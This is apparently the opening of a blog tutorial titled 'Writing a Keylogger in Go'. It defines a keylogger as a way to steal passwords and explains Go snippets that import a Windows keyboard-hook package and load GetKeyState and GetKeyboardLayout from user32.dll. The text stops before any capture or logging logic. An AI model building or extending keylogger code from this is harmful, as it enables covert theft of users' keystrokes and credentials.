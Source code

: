 ```yaml
---
title: "Writing a Keylogger in Go"
date: 2022-10-16T20:30:23+02:00
draft: false
---
```


### What is a Keylogger
a computer program that records every keystroke made by a computer user, especially in order to gain fraudulent access to passwords and other confidential information.

## Code Explanation:
### Imports:
```go
import (
	"fmt"
	"os"
	"os/signal"

	"syscall"
	"unsafe"

	"github.com/moutend/go-hook/pkg/keyboard"
	"github.com/moutend/go-hook/pkg/types"
	"golang.org/x/sys/windows"
)
```
The 4 most important imported modules are syscall, github.com/moutend/go-hook/pkg/keyboard, github.com/moutend/go-hook/pkg/types, and golang.org/x/sys/windows


[go-hook](https://github.com/moutend/go-hook/) is package by github user moutend that allows you to directly interface with low level windows keyboard hooks.
Package windows and syscall contain an interface to the low-level operating system primitives.


### Variables:
* mod: store the loaded *user32.dll* library
    ```go
	mod = windows.NewLazyDLL("user32.dll")
    ```


* procGetKeyState: store the function GetKeyState from *user32.dll*. This function gets the state of the specified key (is the specified key pressed or not)
    ```go
	procGetKeyState         = mod.NewProc("GetKeyState")
    ```


* procGetKeyboardLayout: store the function GetKeyboardLayout from *user32.dll*. This function gets the layout of the current keyboard
    ```go
    procGetKeyboardLayout   = mod.NewProc("GetKeyboardLayout")
    ```

